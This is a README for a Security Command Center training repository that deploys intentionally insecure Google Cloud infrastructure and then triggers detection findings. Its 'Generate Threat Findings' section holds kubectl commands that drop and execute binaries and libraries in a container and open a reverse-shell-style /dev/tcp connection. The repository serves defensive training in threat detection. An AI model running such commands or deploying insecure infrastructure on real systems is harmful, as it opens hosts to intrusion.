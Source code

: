 # Secure Command Center Training

## Purpose

This repository aims to learn Security Command Center by detecting an insecure infrastructure findings in a development environment.

## Prerequisites

To run the commands described in this document, you need to have the following
installed:

- The [Google Cloud SDK](https://cloud.google.com/sdk/install) version 319.0.0 or later
- [Terraform](https://www.terraform.io/downloads.html) version 0.13.6.
- An existing project and GCS Bucket to store Terraform state

**Note:** Make sure that you use the same version of Terraform throughout this
series. Otherwise, you might experience Terraform state snapshot lock errors.

## Update variables

1. Change to deployment directory
   ```
   cd envs/development
   ```
1. Update `backend.tf` with an existing GCS bucket to store Terraform state.
   ```
   bucket = "UPDATE_ME"
   ```
1. Rename `terraform.example.tfvars` to `terraform.tfvars` and update the file with values from your environment:
   ```
   mv terraform.example.tfvars terraform.tfvars
   ```
1. Update required  variables
   
## Deploy Insecure Infrastructure

### Deploy from a desktop

1. Run `terraform init`
1. Run `terraform plan` and review the output.
1. Run `terraform apply`

## Generate Threat Findings

While several findings will automatically trigger during the deployment, the following instructions can be leveraged to trigger Container Threat Detection and Data exfiltration findings.

- Set variables 
```
export PROJECT_ID=YOUR_PROJECT_ID
export GKE_CLUSTER=YOUR_GKE_CLUSTER_NAME
```
- Download Cluster credentials
```
gcloud container clusters get-credentials $GKE_CLUSTER \
 --zone us-central1 \
 --project $PROJECT_ID
```
- Add a binary to a running container
```
tag="dropped-binary-$(date +%Y-%m-%d-%H-%M-%S)"
kubectl run --restart=Never --rm=true --wait=true -i \
--image marketplace.gcr.io/google/ubuntu1804:latest \
"$tag" -- bash -c "cp /bin/ls /tmp/$tag; /tmp/$tag"
```
- Add a library to a running container
```
tag="dropped-library-$(date +%Y-%m-%d-%H-%M-%S)"
kubectl run --restart=Never --rm=true --wait=true -i \
--image marketplace.gcr.io/google/ubuntu1804:latest \
"$tag" -- bash -c "cp /lib/x86_64-linux-gnu/libc.so.6 /tmp/$tag; /lib64/ld-linux-x86-64.so.2 /tmp/$tag"
```

- Start a reverse shell in running container
```
tag="reverse-shell-$(date +%Y-%m-%d-%H-%M-%S)"
kubectl run --restart=Never --rm=true --wait=true -i \
--image marketplace.gcr.io/google/ubuntu1804:latest \
"$tag" -- bash -c "/bin/echo >& /dev/tcp/8.8.8.8/53 0>&1"
```

### Optional Deploy a Cloud Build environment

1. Deploy Bootstrap environment from [Cloud Foundation Toolkit](https://github.com/terraform-google-modules/terraform-example-foundation/tree/master/0-bootstrap)

1. Add cloud_source_repos to terraform.tfvars file to build gcp-scc-training repo in 0-bootstrap

   ```
   cloud_source_repos = ["gcp-org", "gcp-environments", "gcp-networks", "gcp-projects", "gcp-scc-training"]
   ```
1. Run `terraform apply`

#### Deploy from Cloud Build pipeline

1. Clone the empty gcp-scc-training repo.
   ```
   gcloud source repos clone gcp-scc-training --project=YOUR_CLOUD_BUILD_PROJECT_ID_FROM_0-bootstrap
   ```
1. Navigate into the repo and change to a non-production branch.
   ```
   cd gcp-scc-training
   git checkout -b plan
   ```
1. Copy the development environment directory and cloud build configuration files
   ```
   cp -r ../gcp_scc_training/envs  .
   cp ../gcp_scc_training/build/*  . 
   ```
1. Ensure wrapper script can be executed.
   ```
   chmod 755 ./tf-wrapper.sh
   ```
1. Commit changes.
   ```
   git add .
   git commit -m 'Your message'
   ```
1. Push your plan branch to trigger a plan. For this command, the branch `plan` is not a special one. Any branch which name is different from `development`, `non-production` or `production` will trigger a Terraform plan.
   ```
   git push --set-upstream origin plan
   ```
1. Review the plan output in your Cloud Build project. https://console.cloud.google.com/cloud-build/builds?project=YOUR_CLOUD_BUILD_PROJECT_ID
1. Merge changes to production branch.
   ```
   git checkout -b development
   git push origin development
   ```
1. Review the apply output in your Cloud Build project. https://console.cloud.google.com/cloud-build/builds?project=YOUR_CLOUD_BUILD_PROJECT_ID

1. Destroy the infrastructure with gcloud build command
   ```
   gcloud builds submit . --config=cloudbuild-tf-destroy.yaml --project your_build_project_id --substitutions=BRANCH_NAME="$(git branch 2> /dev/null | sed -e '/^[^*]/d' -e 's/* \(.*\)/\1/')",_ARTIFACT_BUCKET_NAME='Your Artifact GCS Bucket',_STATE_BUCKET_NAME='Your Terraform GCS bucket',_DEFAULT_REGION='us-central1',_GAR_REPOSITORY='prj-tf-runners'
   ```

